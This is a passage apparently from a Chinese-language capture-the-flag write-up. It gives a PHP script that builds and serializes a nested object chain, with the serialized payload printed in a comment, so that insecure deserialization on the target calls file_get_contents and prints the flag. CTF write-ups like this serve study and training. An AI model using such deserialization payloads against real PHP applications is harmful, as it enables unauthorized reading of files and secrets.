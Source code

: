 可以使用file\_get\_contents函数绕过，直接打印内容

```
<?php
class a
{
    public $OAO;
    public $QAQ;
    public $OVO="hello";
}

class b
{
    public $pap;
    public $vqv;
}

class c
{
    public $OOO="file_get_contents";
}

class d
{
    public $UUU;
    public $uuu;
}
$d=new d();
$a=new a();
$b=new b();
$d->UUU=$a;
$a->OAO=$b;
$c=new c();
$b->pap=$c;
echo serialize($d);
#O:1:"d":2:{s:3:"UUU";O:1:"a":3:{s:3:"OAO";O:1:"b":2:{s:3:"pap";O:1:"c":1:{s:3:"OOO";s:17:"file_get_contents";}s:3:"vqv";N;}s:3:"QAQ";N;s:3:"OVO";s:5:"hello";}s:3:"uuu";N;}
```

拿到flag

![](./images/image-12.png)
